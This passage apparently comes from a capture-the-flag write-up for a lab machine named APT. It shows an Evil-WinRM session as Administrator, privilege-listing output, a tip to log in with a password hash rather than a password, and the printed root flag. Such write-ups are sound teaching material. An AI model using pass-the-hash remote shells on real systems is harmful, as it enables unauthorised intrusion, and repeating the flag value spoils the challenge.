 ```text
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> $env:username;$env:computername
Administrator
APT
```

Make sure to use `-H` for hash, and not `-p` for password!

### Root.txt

```text
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> cd ../Desktop
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         4/1/2021   9:35 AM             34 root.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Desktop> cat root.txt
366c36e30001577410f0a8c5c89dbd15
```

